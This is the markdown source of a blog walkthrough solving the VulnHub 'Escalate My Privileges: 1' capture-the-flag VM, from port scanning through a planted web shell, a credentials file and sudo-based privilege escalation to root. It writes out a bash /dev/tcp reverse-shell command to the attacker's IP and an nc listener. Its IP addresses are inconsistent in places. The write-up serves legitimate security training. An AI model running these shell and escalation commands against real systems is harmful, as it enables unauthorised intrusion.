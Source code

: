 ```yaml
---
full_title: "VulnHub: Escalate My Privileges: 1 Walkthrough"
description: "A step-by-step walkthrough of solving the Escalate My Privileges: 1 pentesting challenge from VulnHub."
date: "2020-04-12"
layout: post
coverImage: "screen-shot-2020-04-13-at-12.49.33-am.png"
tags:
- Beginner
- CTF
- Kali
- Linux
- Vulnhub
- Walkthrough
- Writeup
- Security
sitemap:
    lastmod: 2021-08-25
---
```


**Escalate My Privileges: 1** is a challenge posted on [VulnHub](https://www.vulnhub.com/entry/escalate-my-privileges-1,448/) created by [Akanksha Sachin Verma](https://www.vulnhub.com/author/akanksha-sachin-verma,672/). This is a write-up of my experience solving this awesome CTF challenge.

With my Attack Machine (**Kali Linux**) and Victim Machine (**Escalate My Privileges: 1**) set up and running, I decided to get down to solving this challenge.

> Read more about my set up and environment [here](/blog/my-first-post)

I decided to start my journey by noting down the IP address of our victim machine. We are lucky that the author decided to display it directly on the login screen of the CentOS server.

![Screen Shot 2020-04-13 at 12.49.33 AM](/assets/images/screen-shot-2020-04-13-at-12.49.33-am.png)

Great! The victim machine has the IP address `192.168.56.120`. Let's continue with some port scanning (as usual 😏).

I decided to use my trusty `nmap` with options enabled to scan _all_ ports and provide details about the service running using the command: `nmap -p- -sV 192.168.56.120`

![Screen Shot 2020-04-13 at 7.11.20 PM](/assets/images/screen-shot-2020-04-13-at-7.11.20-pm.png)

The `nmap` scan revealed a whole bunch of open ports on the victim machine. Now, the first thing that I noticed was port `80` and I decided to navigate to the website (`http://192.168.56.102`) using **Firefox ESR** as follows:

![Screen Shot 2020-04-13 at 7.15.49 PM](/assets/images/screen-shot-2020-04-13-at-7.15.49-pm.png)

Cool! A pretty `index.html` webpage which goes well with the theme of the challenge 😎

Whenever, I am faced with a `HTML` page, I make it a point to view the webpage source code **before** attempting brute-force using tools like `dirb` or `dirbuster`. I decided to hit `<CTRL+U>` to view the webpage source.

![Screen Shot 2020-04-13 at 7.21.20 PM](/assets/images/screen-shot-2020-04-13-at-7.21.20-pm-e1586791364696.png)

Interesting! The `alt` attribute in the `img` tag has a URL - `http://ip/phpbash.php`

I decided to check out `http://192.168.56.120/phpbash.php` by replacing `ip` with the victim machine's IP address.

![Screen Shot 2020-04-13 at 7.51.19 PM](/assets/images/screen-shot-2020-04-13-at-7.51.19-pm.png)

Oh my God - command execution 😳

I decided to play with some basic Linux commands to learn more about my privileges.

![Screen Shot 2020-04-13 at 7.54.41 PM](/assets/images/screen-shot-2020-04-13-at-7.54.41-pm.png)

Looks like I am `apache`.

I decided to check for more users on the victim machine and look for clues. For this purpose, I ran the command: `cd /home` to navigate to the `/home` directory where I can find other users (if any).

![Screen Shot 2020-04-13 at 8.00.37 PM](/assets/images/screen-shot-2020-04-13-at-8.00.37-pm.png)

Bingo! Looks like there is a user called `armour` on the victim machine. I decided to look inside using the command: `ls -lsa armour` to also display hidden files (if any).

![Screen Shot 2020-04-13 at 8.02.28 PM](/assets/images/screen-shot-2020-04-13-at-8.02.28-pm.png)

C'mon it is literally right there - `Credentials.txt`

What does it contain? I decided to find out...

![Screen Shot 2020-04-13 at 8.07.02 PM](/assets/images/screen-shot-2020-04-13-at-8.07.02-pm.png)

The `Credentials.txt` file contains the following text:

{% highlight text %}
my password is
md5(rootroot1)
{% endhighlight %}

Woohoo! A password... but how to use it?

Maybe `SSH`? Our previous `nmap` scan did show that port `22` was open. Also, the website did not have a login portal or something similar. I decided to try the `SSH` approach.

But first - I decided to compute the `MD5` hash of the password string - `rootroot1` using the simple Linux command: `echo -n rootroot1 | md5sum`

![Screen Shot 2020-04-13 at 8.22.25 PM](/assets/images/screen-shot-2020-04-13-at-8.22.25-pm.png)

> The `-n` option for the `echo` command prevents output of the trailing newline

Great! We have our password!

I decided to try logging into the victim machine as `armour` using the command: 
`ssh armour@192.168.56.120`

![Screen Shot 2020-04-13 at 8.29.01 PM](/assets/images/screen-shot-2020-04-13-at-8.29.01-pm.png)

Damn! Not what I had expected!

I decided to go back to the webpage. Maybe I can login to the `armour` account directly using the `su` Linux command as follows: `su - armour`

![Screen Shot 2020-04-13 at 8.47.58 PM](/assets/images/screen-shot-2020-04-13-at-8.47.58-pm.png)

> Read more about `su` vs `sudo` [here](https://www.lifewire.com/switch-user-su-command-3887179)

Hmm, `Authentication failure`.

I decided to explore a different approach - Reverse Shell. Maybe an _interactive_ shell will allow me to input the `MD5` password hash and escalate my privileges from `apache` to beyond 😎

With my handy [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) by **pentestmonkey**, I decided to proceed by launching `nc -lvp 1010` on my attack machine to listen for connections. Then, on the webpage command execution input, I ran the command:

`bash -i >& /dev/tcp/192.168.56.119/1010 0>&1` where `192.168.56.120` is the IP address of attack machine and port `1010` is the randomly selected port on which `nc` is listening on for connections.

![Screen Shot 2020-04-13 at 8.55.43 PM](/assets/images/screen-shot-2020-04-13-at-8.55.43-pm.png)

Lo and behold!

![Screen Shot 2020-04-13 at 9.12.38 PM](/assets/images/screen-shot-2020-04-13-at-9.12.38-pm.png)

Still `apache` btw!

Now, to login as `armour` using the command: `su - armour`

![Screen Shot 2020-04-13 at 10.20.24 PM](/assets/images/screen-shot-2020-04-13-at-10.20.24-pm.png)

Woohoo! I am `armour`

It is important to note that once the password is entered, there is no manual prompt. You just need to type in any command and see 😏

Okay, the next step is to escalate my privileges and capture the flag. But how?

I decided to proceed by checking for `sudo` rights for the user `armour`. To do this, I ran the command: `sudo -l`

![Screen Shot 2020-04-13 at 10.25.44 PM](/assets/images/screen-shot-2020-04-13-at-10.25.44-pm.png)

Bah! Enough is enough! It is time to get a _full_ `tty` shell.

I ran my usual ever-wonderful Python `tty` command: `python -c 'import pty; pty.spawn("/bin/bash");'`

![Screen Shot 2020-04-13 at 10.28.18 PM](/assets/images/screen-shot-2020-04-13-at-10.28.18-pm.png)

That's when I decided to check the version of Python. After all, Python can't betray me 😳

![Screen Shot 2020-04-13 at 10.29.48 PM](/assets/images/screen-shot-2020-04-13-at-10.29.48-pm.png)

Oh look what we have here!

Python 3.6 - Hurrah!

I decided to try the same Python `tty` command using `python3` this time as follows: `python3 -c 'import pty; pty.spawn("/bin/bash");'`

![Screen Shot 2020-04-13 at 10.31.22 PM](/assets/images/screen-shot-2020-04-13-at-10.31.22-pm-e1586802718207.png)

Well, there you go! Finally!

Back to checking for a chance to exploit `sudo` rights using the command: `sudo -l`

![Screen Shot 2020-04-13 at 10.33.32 PM](/assets/images/screen-shot-2020-04-13-at-10.33.32-pm.png)

Like a kid in a candy store. Woah!

How about using good ol' `bash`?

![Screen Shot 2020-04-13 at 10.36.18 PM](/assets/images/screen-shot-2020-04-13-at-10.36.18-pm.png)

We did it! We got root! Heck yes!

...Now for the flag 😎

![Screen Shot 2020-04-13 at 10.38.30 PM](/assets/images/screen-shot-2020-04-13-at-10.38.30-pm.png)

Is that `MD5`? 😏

#### My Thoughts

That was a great challenge from [Akanksha Sachin Verma](https://www.vulnhub.com/author/akanksha-sachin-verma,672/)! I really enjoyed going back to the basics. **Privilege escalation** is one of those areas where practice is everything and this challenge seems to be straightforward enough for a beginner (with boatloads of trial-and-error of course 😁)

I am writing a Vulnhub walkthrough after almost 7 months and had to do a LOT of Google-fu and re-read my old material to complete this challenge.

I look forward to solving more challenges in the [Escalate My Privileges](https://www.vulnhub.com/series/escalate-my-privileges,291/) series.

If you enjoyed reading this write-up, please check out my other [Vulnhub walkthroughs](/tags#vulnhub).
